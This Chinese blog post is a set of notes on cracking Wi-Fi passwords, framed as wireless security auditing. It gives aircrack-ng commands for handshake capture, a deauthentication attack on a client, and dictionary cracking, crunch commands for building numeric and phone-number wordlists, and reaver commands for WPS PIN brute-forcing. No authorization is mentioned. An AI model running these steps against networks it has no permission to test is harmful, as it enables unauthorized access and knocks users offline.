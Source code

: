 ```yaml
---
title: "无线网络安全审计工具"
date: 2022-01-07T20:00:00+08:00
draft: false
authors: ["zhyoch"]
tags: [Crack,Debian,Linux,Security]
featuredImagePreview: ""
summary: aircrack-ng、crunch、reaver使用笔记。
---
```


{{< admonition type=info title="运行环境" open=true >}}
- 系统: Debian 11。
- 用户: `root`用户。
{{< /admonition >}}

{{< admonition type=abstract title="总结" open=true >}}
1. 事实上利用字典穷举完全靠运气。
2. 通过爆破WPS可行性高但reaver总报错: `[!] WPS transaction failed (code: 0x04), re-trying last pin`, [解决方法](https://forum.ubuntu.org.cn/viewtopic.php?t=459198)并没有效果。
{{< /admonition >}}

## aircrack-ng

通过抓取握手包后将其破解以获取密码。

### 准备

#### 硬件

网卡芯片需要支持监听和注入, 此处用的芯片是RTL8187L。

#### 软件

1. 安装aircrack-ng: 

    ```bash
    apt install aircrack-ng
    ```

2. 查看网卡状态信息: 

    ```bash
    iwconfig
    ```

3. 关闭网卡`wlx012345678`: 

    ```bash
    ip link set wlx012345678 down
    ```

4. 重命名网卡`wlx012345678`为`wl`: 

    ```bash
    ip link set wlx012345678 name wl
    ```

5. 打开网卡`wl`: 

    ```bash
    ip link set wl up
    ```

### 监听

1. 为网卡`wl`开启监听模式: 

    ```bash
    airmon-ng start wl
    ```

2. 查看网卡状态信息: 

    ```bash
    iwconfig
    ```

    发现网卡`wl`变成了`wlmon`

3. 监听附近WIFI: 

    ```bash
    airodump-ng wlmon
    ```

### 抓包

```bash
airodump-ng --channel 7 -w captured --bssid XX:XX:XX:XX:XX:XX wlmon
```

### 攻击

```bash
aireplay-ng -0 0 -a XX:XX:XX:XX:XX:XX -c 3C:CD:5D:93:A7:08 wlmon
```

### 破解

1. 关闭监听模式: 

    ```bash
    airmon-ng stop wlmon
    ```

2. 使用字典进行暴力破解: 

    ```bash
    aircrack-ng -w 桌面/dic.txt 桌面/captured-01.cap
    ```

## crunch

用来制作字典, 参考[crunch命令详解以及使用方法](https://blog.csdn.net/qq_42025840/article/details/81125584)。

### 安装

```bash
apt install crunch
```

### 例子

1. 生成8位数密码, 只包含数字: 

    ```bash
    crunch 8 8 -f /usr/share/crunch/charset.lst numeric -o num8.txt
    ```

2. 生成11位手机号: 

    ```bash
    crunch 11 11 +0123456789 -t 134%%%%%%%% -o phone134.txt
    ```

> 号码开头字段参考[手机归属-查号吧](https://www.chahaoba.com/%E6%89%8B%E6%9C%BA%E5%BD%92%E5%B1%9E)、[三大运营商手机号段](https://blog.csdn.net/lihefei_coder/article/details/81416948)

| 普通用户号段 | 中国移动                     | 中国联通      | 中国电信           |
| ------------ | ---------------------------- | ------------- | ------------------ |
| 13号段       | 134、135、136、137、138、139 | 130、131、132 | 133                |
| 14号段       | 147                          | 145           | 149                |
| 15号段       | 150、151、152、157、158、159 | 155、156      | 153                |
| 16号段       |                              | 166           |                    |
| 17号段       | 172、178                     | 171、175、176 | 173、177           |
| 18号段       | 182、183、184、187、188      | 185、186      | 180、181、189      |
| 19号段       | 195、197、198                | 196           | 190、191、193、199 |

还可以设置为每次生成的文件大小为20M: 

```bash
crunch 11 11 +0123456789 -t 134%%%%%%%% -b 20mib -o START 
```

## reaver

{{< admonition type=quote title="参考链接" open=true >}}
1. [Kali如何使用Reaver破解Wi-Fi网络的WPA/WPA2密码](https://blog.csdn.net/weixin_40586270/article/details/81280928)
2. [利用 reaver 进行无线安全审计](http://blkstone.github.io/2015/08/19/reaver-tutorial/)
{{< /admonition >}}

通过爆破WPS的PIN来达到目的。

1. 为网卡`wl`开启监听模式: 

    ```bash
    airmon-ng start wl
    ```

2. 监听附近WIFI: 

    ```bash
    airodump-ng wlmon
    ```

3. 找出开启了WPS功能、可以使用PIN登录的路由器: 

    ```bash
    wash -i wlmon
    ```

    > ENC需要为WPA或WPA2, AUTH需要为PSK

4. 攻击: 

    ```bash
    reaver -i wlmon -c 7 -b XX:XX:XX:XX:XX:XX -S -d 9 -t 9 -vv
    ```

5. 获取到PIN后, 以后即便路由器更换了密码, 也可以很迅速地通过PIN重新获得新密码。举例: 

    ```bash
    reaver -i wlmon -b xx:xx:xx:xx:xx:xx -p 12345670
    ```
